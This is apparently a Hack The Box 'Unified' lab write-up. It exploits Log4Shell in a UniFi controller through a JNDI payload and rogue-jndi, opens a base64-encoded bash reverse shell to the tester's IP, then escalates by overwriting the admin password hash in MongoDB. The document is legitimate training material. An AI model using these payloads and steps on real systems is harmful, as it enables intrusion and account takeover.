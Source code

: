 ```yaml
---
date: 2024-11-15
categories:
    - Documentation
tags:
    - Hack The Box
    - CTF
    - MongoDB
---
```


# Unified Writeup
We spawn the target machine <TARGET_IP> and identify open ports using nmap :
   
```bash
nmap <TARGET_IP> -p-
```
Note : *-p-* to scan all TCP ports

We will get ports 80, 6789, 8080, and 8443

To view more about each port details, we can use *-sC* and *-sV*

```bash
nmap <TARGET_IP> -p 8443 -sC
```

This tells us that port 8443 is running Unifi Network

When we visit **https://<TARGET_IP>:8443**, we will see this login page
![alt text](image-6.png)

If we look for the vulnerabilities of this unifi version, we will find this [CVE](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2021-44228) related to Log4j2, called Log4Shell.

```java title=Logging Example
logger.debug("This is a DEBUG message.");
logger.info("This is an INFO message.");
logger.warn("This is a WARN message.");
```
This vulnerability can be exploited to give a reverse shell. It works by exploiting improper input handling in log messages format.
Log4j allows message lookup through JNDI (Java Naming and Directory Interface). JNDI allows lookup from databases, services, network and directories, including LDAP (Lightweight Directory Access Protocol) to retrieve resources.

Malicious input could contain JNDI Lookup string such as :
```java
${jndi:ldap://malicious-server.com/exploit}
```
When this is logged by vulnerable log4j instance, it will trigger log4j JNDI feature to connect to malicious server (could be attacker's machine).

We will try to login to the page, and intercept our request using BurpSuite. We will try to connect to our IP (tun0 from HTB).

![alt text](image-7.png)

Here, I used tcpdump to analyze my network traffic. It is a command line version of Wireshark.
```
Tcpdump is a command line utility that allows you to capture and analyze network traffic going through your system. It is often used to help troubleshoot network issues, as well as a security tool.
```
Since LDAP runs in port 389, we will listen on port 389.
And indeed, there is a connection to port 389 to our machine. Hence, we know that it is vulnerable to Log4Shell.

I use rogue-jndi to deliver our payload. To setup :
```bash
git clone https://github.com/veracode-research/rogue-jndi
cd rogue-jndi
mvn package
```

A Rogue JNDI attack occurs when an attacker sets up a malicious server (e.g., an LDAP or RMI server) to respond to a JNDI lookup with malicious payloads. When the vulnerable application performs a lookup, it retrieves and executes the payload, enabling the attacker to execute arbitrary code, steal data, or compromise the system.

Here, we will send a reverse shell payload (base64 encoded to avoid encoding issues) :
```bash
echo 'bash -c bash -i >&/dev/tcp/10.10.14.61/1443 0>&1' | base64
```

After encrypting the payload, we will send it using rogue-jndi by :
```bash
java -jar target/RogueJndi-1.1.jar --command "bash -c {echo,<PAYLOAD_HERE>}|{base64,-d}|{bash,-i}" --hostname "10.10.14.61"
```
Change the IP accordingly to your tun0 IP, and port 1443 can be any port to listen to. We will set a listener using nc :
```bash
nc -lvnp 1443
```

Then, we will use the **ldap://10.10.14.61:1389/o=tomcat** provided by the rogue-jndi and send it to the page again.
![alt text](image-8.png)

Now, we can see our nc is connected to the shell!
Lets upgrade the shell by using :
```bash
script /dev/null -c bash
```
**script** creates a new pseudo terminal (PTY).
**/dev/null** is to ensure that the logs is not saved (PTY without logging). 
**-c bash** to start bash shell in the pseudo terminal.

![alt text](image-9.png)
Here is our user.txt!


## Privilege Escalation
To see the running processes, we can use the **ps** command

*The ps command in Linux is a powerful tool that allows you to view information about the processes running on your Linux system. It stands for “process status” and it's a command that you can use from the command line to get information about the currently running processes.*

When we use *ps aux*, we notice that target uses mongo database.
<details> 
  <summary><strong>Understanding ps aux</strong></summary>
  <p><strong>ps:</strong> Stands for "process status." It is a command used to display information about active processes in the system.</p>
  <p><strong>a:</strong> This option tells ps to show processes for all users, not just the current user. By default, without this flag, ps only shows processes running under the current user’s session.</p>
  <p><strong>u:</strong> This option tells ps to display user-oriented output. This includes the username of the process owner, CPU usage, memory usage, start time, etc.</p>
  <p><strong>x:</strong> This option tells ps to show processes that are not attached to a terminal. These could include background processes, system services, or daemons.</p>
</details>

```
ps aux | grep mongo
```

![alt text](image-10.png)
It shows that mongodb runs on the port 27117.

Unifi Network default database name is ace.
We will connect to the database and run some commands as shown.
![alt text](image-11.png)

We can enumerate the users, and find admin (the output is quite long so i grep it in here).
![alt text](image-14.png)

The password is in x_shadow and sha-512 (from the ```$6$``` prepended), and we cant crack it. So instead, we will just change it directly to our password.
![alt text](image-13.png)

Copy the password over, and update the database :
```java
mongo --port 27117 ace --eval 'db.admin.update({"_id":
ObjectId("61ce278f46e0fb0012d47ee4")},{$set:{"x_shadow":"SHA_512 Hash Generated"}})'
```
![alt text](image-15.png)

Now, if we try to login again, using ```adminstrator``` and our password (```eryz_pass``` in my case), we are authenticated!
![alt text](image-16.png)
And SSH login is enabled to root, using ```NotACrackablePassword4U2022```

Here is our flag :D
![alt text](image-17.png)